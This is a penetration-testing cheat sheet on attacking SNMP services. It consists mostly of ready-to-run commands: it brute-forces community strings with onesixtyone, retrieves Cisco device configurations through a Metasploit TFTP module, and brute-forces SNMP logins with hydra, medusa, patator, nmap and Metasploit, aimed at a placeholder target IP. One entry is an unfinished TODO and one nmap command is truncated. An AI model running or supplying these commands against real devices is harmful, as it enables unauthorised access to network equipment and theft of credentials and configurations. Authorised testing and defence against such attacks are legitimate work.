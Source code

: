 ```yaml
---
author(s):
  - Userware
tags:
  - vulnerability-assessment
  - initial-access
  - password-cracking
  - network-ports
  - onesixtyone
  - hydra
  - medusa
  - patator
  - network-mapper
  - metasploit-framework
---
```

# SNMP

## 01 - Brute Force Community Strings

```
$ cat > community.txt << EOF
public
private
manager
EOF

$ onesixtyone -c community.txt -i ip_targets.txt -o output.txt -w 100
```

## 02 - Retrieve Credentials

### 2.1 - Cisco

```
msf > use auxiliary/scanner/snmp/cisco_config_tftp

msf auxiliary(scanner/snmp/cisco_config_tftp) > options

msf auxiliary(scanner/snmp/cisco_config_tftp) > set rhosts <IP>

msf auxiliary(scanner/snmp/cisco_config_tftp) > run
```

## 03 - Brute Force Credentials

### 3.1 - OneSixtyOne

```
$ onesixtyone <IP> -c passwords.lst
```

### 3.2 - Hydra

TODO: Fill this info

`$ hydra -U snmp`

```
$ hydra -P passwords.lst <IP> snmp
```

### 3.3 - Medusa

```
$ medusa -M snmp -h <IP> -u <username> -P passwords.lst
```

### 3.4 - Patator

```
$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=unknownUserName

$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=wrongDigest
```

### 3.5 - Network Mapper

```
$ sudo nmap -sU -p 161,162 -n --script snmp-brute --script-args "snmp-brute.communitiesdb=passwords.lst" <IP
```

### 3.6 - Metasploit

```
msf > use auxiliary/scanner/snmp/snmp_login

msf auxiliary(scanner/snmp/snmp_login) > options

Module options (auxiliary/scanner/snmp/snmp_login): 

   Name              Current Setting                                       Required  Description 
   ----              ---------------                                       --------  ----------- 
   BLANK_PASSWORDS   false                                                 no        Try blank passwords for all users 
   BRUTEFORCE_SPEED  5                                                     yes       How fast to bruteforce, from 0 to 5 
   DB_ALL_CREDS      false                                                 no        Try each user/password couple stored in the current database 
   DB_ALL_PASS       false                                                 no        Add all passwords in the current database to the list 
   DB_ALL_USERS      false                                                 no        Add all users in the current database to the list 
   DB_SKIP_EXISTING  none                                                  no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm) 
   PASSWORD                                                                no        The password to test 
   PASS_FILE         /opt/metasploit/data/wordlists/snmp_default_pass.txt  no        File containing communities, one per line 
   RHOSTS                                                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             161                                                   yes       The target port 
   STOP_ON_SUCCESS   false                                                 yes       Stop guessing when a credential works for a host 
   THREADS           1                                                     yes       The number of concurrent threads (max one per host) 
   USER_AS_PASS      false                                                 no        Try the username as the password for all users 
   VERBOSE           true                                                  yes       Whether to print output for all attempts 
   VERSION           1                                                     yes       The SNMP version to scan (Accepted: 1, 2c, all)

msf auxiliary(scanner/snmp/snmp_login) > set rhosts <IP>

msf auxiliary(scanner/snmp/snmp_login) > set pass_file passwords.lst

msf auxiliary(scanner/snmp/snmp_login) > set stop_on_success true

msf auxiliary(scanner/snmp/snmp_login) > run -j

msf auxiliary(scanner/snmp/snmp_login) > creds
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Remote Services/Telnet|Initial Access: Telnet]]

### Hacking Articles

- [Hacking Articles: Password Cracking SNMP](https://www.hackingarticles.in/password-crackingsnmp/)

### Penetration Testing Tools

- [Penetration Testing Tools: Hydra Protocols](https://en.kali.tools/?p=220)

### Mike Bond

- [Mike Bond: Cisco SNMP Secrets](https://bond-o.medium.com/cisco-snmp-secrets-e4b731b19737)